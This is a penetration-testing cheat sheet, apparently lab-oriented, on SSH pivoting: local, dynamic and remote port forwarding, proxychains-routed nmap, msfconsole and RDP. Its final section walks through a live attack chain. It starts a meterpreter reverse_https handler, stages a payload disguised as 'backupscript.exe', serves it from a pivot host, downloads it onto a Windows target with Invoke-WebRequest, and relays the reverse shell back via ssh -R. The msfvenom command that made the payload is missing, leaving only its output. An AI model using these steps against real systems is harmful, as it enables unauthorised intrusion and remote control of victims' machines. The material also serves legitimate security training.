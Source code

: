 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH



## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01) and forwards all traffic to 172.16.50.217:445. (PGDATABASE01).

## SSH Tunneling over SOCKS proxy

### Dynamic Port Forwarding:

_**Attack hosts starts the SSH client via Dynamic Port Forward:**_

```bash
ssh -D 9050 ubuntu@10.129.202.64
```

The -D flag enables dynamic port forwarding & ssh acts as a SOCKS server.

_**Next we need a tool that can route any tool's packets over the specified port. We will use proxychains.**_

Proxychains is often used to force an application's `TCP traffic` to go through hosted proxies like `SOCKS4`/`SOCKS5`, `TOR`, or `HTTP`/`HTTPS` proxies.

We add socks4 _**127.0.0.1 9050**_ to our proxychains.conf file

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

_**Now we can start Nmap with proxychains. By specifying proxychains it forwards all packets over SSH to the 172.16.5.0/23 network**_

```bash
proxychains nmap -v -sn 172.16.5.1-200
```

_<mark style="color:red;">**NOTE:**</mark>_ proxychains only understands full TCP connections. So partial packets like half connect scans will not work. Additionally host-alive checks will not work as Windows Defender blocks ICMP requests (simple pings) by default.

### Using tools with Proxychains:

_**Msfconsole:**_

```bash
proxychains msfconsole
```

_**xfreerdp:**_

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Remote / Reverse Port Forwarding

Say we have a shell on an ubuntu server running on  the same network as us. We want to open a meterpreter payload on the windows host on a different network that we have rdp access to so we can execute low-level windows api functions.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-07 163608.png" alt=""><figcaption><p>Windows host is located on a different network than our jump host</p></figcaption></figure>

In this case we'll configure our reverse connection for the payload to our Ubuntu server's IP. (10.10.201.2). We will use port 8080 on the Ubuntu server to forward all packets back to our attack hosts' 8000 port.

```bash
 

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

_**Configuring & Starting multi/handler**_

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

_**We can copy our payload to the ubuntu server:**_

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

_**Then start a http server to serve the file to the windows machine we have rdp access to**_

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

_**On the windows machine we can fetch the file from our ubuntu server**_

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

\
_**Finally, we can SSH remote port forward to our msfconsole listener service on port 8000 & the ubuntu server's port 8080.**_&#x20;

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

The -R command asks the Ubuntu server to listen on \<targetIpAddress>:8080 and forward all incoming connections to our meterpreter listener on 0.0.0.0:8000 of our attack host.



